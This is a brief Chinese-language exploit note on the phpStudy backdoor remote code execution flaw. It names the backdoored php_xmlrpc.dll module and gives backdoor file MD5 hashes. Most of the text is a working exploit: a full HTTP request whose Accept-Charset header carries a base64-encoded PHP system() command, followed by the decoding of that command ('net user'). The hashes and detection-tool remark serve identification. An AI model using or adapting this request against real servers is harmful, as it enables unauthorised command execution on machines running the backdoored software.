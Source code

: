 # phpStudy RCE
漏洞环境：  
\ext\php_xmlrpc.dll  模块中含有@eval(%s(‘%s’))即可证明存在漏洞  
附后门文件MD5值：  
```
MD5: 0F7AD38E7A9857523DFBCE4BCE43A9E9
MD5: C339482FD2B233FB0A555B629C0EA5D5
```
exp:  
```
GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7
Accept-Encoding: gzip,deflate
Upgrade-Insecure-Requests: 1
```
accept-charset为rce的base64编码  
```
echo system("net user");-->ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7
```

***
检测工具的路径需为phpstudy（小写）  
![image](PIC/phpstudy.jpg)